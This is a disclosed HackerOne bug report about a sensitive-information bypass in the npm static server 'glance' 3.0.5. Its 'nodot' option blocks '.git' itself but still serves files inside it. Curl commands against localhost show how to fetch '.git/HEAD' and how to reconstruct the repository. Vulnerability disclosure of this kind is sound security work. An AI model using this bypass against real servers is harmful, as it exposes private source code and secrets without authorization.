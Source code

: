 # [glance] Access unlisted internal files/folders revealing sensitive information

## Report Details
- **Report ID**: 490379
- **URL**: https://hackerone.com/reports/490379
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-02-02T15:32:02.524Z
- **Disclosed**: 2019-02-28T19:25:51.550Z

## Reporter
- **Username**: skyn3t
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report sensitive information disclosure in `glance`.
Similar to #486933 in ways

# Module

**module name:** glance
**version:** 3.0.5
**npm page:** `https://www.npmjs.com/package/glance`

## Module Description

a quick disposable http server for static files

## Module Stats

**weekly downloads**
41

# Vulnerability

## Vulnerability Description

The `glance` modules allows directory browsing and to serve static files through the browser.
The config option `nodot` can be used to prevent serving sensitive folders such as `.git` or `.DS_Store` 
refer: https://github.com/jarofghosts/glance#command-line-options
This rule can be bypassed using the technique below which can lead to sensitive information disclosure (An interesting example: https://smitka.me/).

## Steps To Reproduce:

- Install `glance`
```
$ npm install -g glance
```

- Inside a project directory, initialise `git`.
```
$ git init
```

- Add rule to ignore dotfiles in `.glance.json`
```json
{
  "nodot": true
}
```

- Start `glance` in current directory.
```
$ glance --verbose
glance serving /project/directory on port 8080
```

- Now, current directory will be served by serve with the exception of folder `.git` and file `.gitignore`.
- If we try to curl .`git` or `.gitignore` we get a Not Found error
```
$ curl --path-as-is 127.0.0.1:8080/.git
...
<title>File Not Found</title>
...
```

- Although if we try to fetch files/folders inside a forbidden [dot]folder there is no problem at all and most of it's content can be extracted successfully  (except dotfiles itself).
```
$ curl --path-as-is 127.0.0.1:8080/.git/HEAD      
ref: refs/heads/master
```

>The structure of git repository is well known, so it is possible to found references to the objects/packs in the repository, download them via direct requests and reconstruct the repository and obtain your files – not only the current ones, but also the past files. 

## Supporting Material/References:

- Ubuntu 16.04
- node v11.3.0
- npm 6.7.0

# Wrap up

> Select Y or N for the following statements:

- I contacted the maintainer to let them know: [N]
- I opened an issue in the related repository: [N] 

>Hunter's comments and funny memes goes here

{F416786}

## Impact

The essentially bypasses the `nodot` feature and allows an attacker to read from a directory that the victim has not allowed access to.

References:
- https://github.com/jarofghosts/glance#command-line-options
- https://smitka.me/

## Attachments
- meme.png
